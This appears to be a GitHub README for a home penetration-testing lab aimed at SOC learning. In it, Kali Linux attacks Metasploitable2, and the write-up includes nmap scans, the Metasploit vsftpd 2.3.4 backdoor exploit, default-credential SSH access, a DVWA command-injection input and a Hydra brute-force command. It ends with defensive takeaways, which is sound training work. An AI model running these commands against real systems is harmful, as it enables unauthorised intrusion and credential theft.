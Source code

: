 # Kali Linux & Metasploitable2: Penetration Testing Lab

This project simulates an internal network attack scenario using Kali Linux (attacker) and Metasploitable2 (target). It demonstrates core reconnaissance, exploitation, and post-exploitation techniques aligned with SOC Analyst learning objectives.

---

## 📋 Table of Contents

- [Lab Setup](#lab-setup)
- [Phase 1: Reconnaissance](#phase-1-reconnaissance)
  - [Basic Nmap Scan](#basic-nmap-scan)
  - [Service Version Detection](#service-version-detection)
  - [Vulnerability Detection](#vulnerability-detection)
- [Phase 2: Exploitation](#phase-2-exploitation)
  - [FTP Exploit – vsftpd 2.3.4 Backdoor](#ftp-exploit--vsftpd-234-backdoor)
  - [SSH Exploit](#ssh-exploit)
  - [HTTP Exploit – DVWA Command Injection](#http-exploit--dvwa-command-injection)
  - [HTTP Brute-Force Attack – DVWA Login](#http-brute-force-attack--dvwa-login)

---

## 🛠️ Lab Setup

| Component    | Details                  |
|--------------|--------------------------|
| Attacker     | Kali Linux (UTM VM)      |
| Target       | Metasploitable2 (UTM VM) |
| Network Mode | Shared NAT / Bridged     |
| Connectivity | Confirmed via ping       |

---

## 🔎 Phase 1: Reconnaissance

### Target IP: `192.168.64.3`

---

### 🔍 Basic Nmap Scan

```bash
nmap -sS -T4 192.168.64.3 -oN basic-scan.txt
```
**Summary of Open Ports:**
- 21 (FTP)
- 22 (SSH)
- 80 (HTTP)
  
#### Service Version Detection
```bash
nmap -sS -sV -T4 192.168.64.3 -oN version-scan.txt
```
Summary:
- FTP: vsftpd 2.3.4
- SSH: OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
- HTTP: Apache 2.2.8
  
#### Vulnerability Detection
```bash
nmap --script vuln -T4 192.168.64.3 -oN vuln-scan.txt
```
**Summary:** 
- Port 21 (FTP) - VULNERABLE to vsftpd 2.3.4 backdoor (CVE-2011-2523)
- Port 80 (HTTP) - Apache version outdated with multiple CVEs


---

## Phase 2: Exploitation

### FTP Exploit - vsftpd 2.3.4 Backdoor (CVE-2011-2523)

#### Tool Used: Metasploit Framework
```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.168.64.3
exploit
```

**Result:** 
* Successful shell access as `root`
* Verified with `whoami`


---

### SSH Exploit

**Target IP:** 192.168.64.3  
**Tool Used:** Native OpenSSH Client
```bash
ssh -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedKeyTypes=+ssh-rsa msfadmin@192.168.64.3
```

**Result:** 
* Successful login using default credentials:
  * Username: `msfadmin`
  * Password: `msfadmin`
* Access confirmed with:
  `whoami`

#### Compatibility Issue: Legacy SSH Key Algorithms

**Problem Encountered**
```Unable to negotiate with 192.168.64.3 port 22: no matching host key type found. Their offer: ssh-rsa,ssh-dss```

**Solution**
```ssh -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedKeyTypes=+ssh-rsa msfadmin@192.168.64.3```

**Lessons Learned:**
Modern SSH clients disable depreciate algorithms by default. Lab environments often require these legacy options to connect. SOC teams should watch for deprecated algorithm negotiation in logs as potential indicators of legacy or malicious activity.


---

### HTTP Exploit – DVWA Command Injection

**Target URL:** `http://192.168.64.3/dvwa/vulnerabilities/exec/`
**Authentication:**  
- Username: `admin`  
- Password: `password`

**DVWA Configuration:**
- Set security level to `Low` under the "DVWA Security" tab

**Exploit Method:**
- Injected shell command via the IP input field:
```bash
127.0.0.1; whoami
```

**Output:**
```PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.014 ms
...
www-data
```

***Result:***
* Successfully executed `whoami`
* Proved remote command execution vulnerability


---

**###HTTP Brute-Force Attack – DVWA Login**

**Target URL:** `http://192.168.64.3/dvwa/login.php` 
**Login Type:** HTTP POST Form  
**Tool Used:** Hydra

**Command:**
```bash
hydra -L usernames.txt -P /usr/share/wordlists/rockyou.txt 192.168.64.3 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed"
```

**Result:**
```[80][http-post-form] host: 192.168.64.3   login: admin   password: password```

**Summary:** 
* Performed a dictionary brute-force attack
* Login credentials were discovered
* Demonstrated the importance of strong password credential policies


**SOC Analyst Takeaways**
Brute-force activity can be detected via repeated login failures, especially to web apps or SSH
Exploits often rely on outdated software or weak credentials
Key log indicators: POST attempts to login pages, multiple SSH attempts, legacy crypto negotiations
Defenses: Rate limiting, MFA, updated services, IDS/IPS, log monitoring
